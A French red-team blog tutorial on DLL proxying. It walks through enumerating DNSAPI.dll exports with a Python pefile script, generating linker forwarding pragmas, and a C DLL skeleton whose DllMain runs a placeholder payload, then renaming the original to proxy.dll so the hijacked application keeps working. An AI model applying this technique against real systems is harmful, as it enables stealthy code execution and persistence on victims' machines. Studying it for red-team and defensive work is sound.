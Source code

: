 +++
author = "Sh0ckFR"
title = "Martin et le DLL Proxying de cristal"
date = "2022-05-16"
description = "Martin et le DLL Proxying de cristal"
tags = [
    "red-team",
]
+++

Bonjour à tous et à toutes, pour faire suite à mon article [Martine à la recherche de la DLL Hijacking perdue](/pages/martine-a-la-recherche-de-la-dll-hijacking-perdue/) je vous propose aujourd'hui un article sur le DLL Proxying.

![Sh0ckFR DLL Proxying](/images/martin-dll-proxying.jpg)

Comme vous vous en doutez, le gars au centre c'est Martin et il ne savait pas trop ce qu'il lui arrivait avec ce pouvoir entre les mains, ici c'est pareil.

Vous avez pu comprendre les mécanismes du DLL Hijacking dans mon précédent post, mais je n'avais pas évoqué un point important.

Effectivement, que se passe t'il si on redirige une fonction d'un programme sans pour autant rediriger les autres fonctions de celui-ci ? vous avez 4 heures.

En vrai c'est relativement simple, ça peut crash, du moins vous pouvez bloquer l'exécution d'un programme et exécuter votre charge utile sans attendre de retour mais cela rend l'application originale inutilisable.

Dans un contexte où l'application n'est pas vraiment nécessaire pour l'utilisateur, ça fonctionne relativement bien, mais imaginez bloquer une bibliothèque importante pour un programme de l'utilisateur, votre charge utile fonctionnera mais l'utilisateur ne pourra plus utiliser son application originale.

Mais alors comment faire ?

La réponse est simple, rediriger TOUTES les fonctions du programme original (donc faire un DLL hijacking sur toutes les fonctions connues).

Reprenons l'exemple dans le précédent post, vous aviez vu que `nslookup.exe` utilisait une librairie vulnérable au DLL Hijacking `DNSAPI.dll`, pour retrouver toutes nos fonctions il existe un programme :

http://www.nirsoft.net/utils/dllexp-x64.zip

On peut donc retrouver la table d'export via ce logiciel :

![Sh0ckFR DLL Proxying](/images/dll-proxying-1.png)

Et là magie, on retrouve notre fonction utilisée dans le précédent post `DnsQueryConfigAllocEx`

![Sh0ckFR DLL Proxying](/images/dll-proxying-2.png)

Une autre solution pour éviter d'être dépendant de notre programme `DLL Export Viewer` et d'utiliser la librairie `pefile` pour Python :

```python
import pefile

exported_functions = []
pe = pefile.PE('C:\\windows\\system32\\DNSAPI.dll')
for entry in pe.DIRECTORY_ENTRY_EXPORT.symbols:
    func = entry.name.decode('utf-8')
    exported_functions.append(f'#pragma comment(linker,"/export:{func}=proxy.{func},@{entry.ordinal}")')

exported_functions = '\n'.join(exported_functions)
print(exported_functions)
```

Ce qui donne un résultat du genre :

![Sh0ckFR DLL Proxying](/images/dll-proxying-3.png)

On voit que toutes les fonctions de DNSAPI.dll devront être redirigées vers une DLL nommée `proxy.dll`.

Il n'y a plus qu'à copier les exports pour le linked afin que nous puissons créer une DLL `DNSAPI.dll` avec toutes les fonctions attendues par la DLL originale `DNSAPI.dll` :

```c
#pragma once
#pragma comment(linker,"/export:AdaptiveTimeout_ClearInterfaceSpecificConfiguration=proxy.AdaptiveTimeout_ClearInterfaceSpecificConfiguration,@1")
#pragma comment(linker,"/export:AdaptiveTimeout_ResetAdaptiveTimeout=proxy.AdaptiveTimeout_ResetAdaptiveTimeout,@2")
#pragma comment(linker,"/export:AddRefQueryBlobEx=proxy.AddRefQueryBlobEx,@3")
#pragma comment(linker,"/export:BreakRecordsIntoBlob=proxy.BreakRecordsIntoBlob,@4")
#pragma comment(linker,"/export:Coalesce_UpdateNetVersion=proxy.Coalesce_UpdateNetVersion,@5")
#pragma comment(linker,"/export:CombineRecordsInBlob=proxy.CombineRecordsInBlob,@6")
#pragma comment(linker,"/export:DeRefQueryBlobEx=proxy.DeRefQueryBlobEx,@7")
...

int Main()
{
    // Your payload code.
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        Main();
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Il suffit ensuite de renommer la DLL originale `DNSAPI.dll` en `proxy.dll` et de copier notre nouvelle librairie `DNSAPI.dll` dans le même répertoire que le programme original et vous avez donc comme résultat un DLL Proxying parfait qui ne fera pas planter l'application originale.

Bien entendu, j'ai implémenté l'automatisation du DLL Proxying dans [DLLirant](https://github.com/Sh0ckFR/DLLirant) via l'argument `--proxydll` :

```python
python3 DLLirant.py -p "C:\THEFULLPATH\VulnerableDLL.dll"
```

## Crédits

itm4n - https://itm4n.github.io/dll-proxying/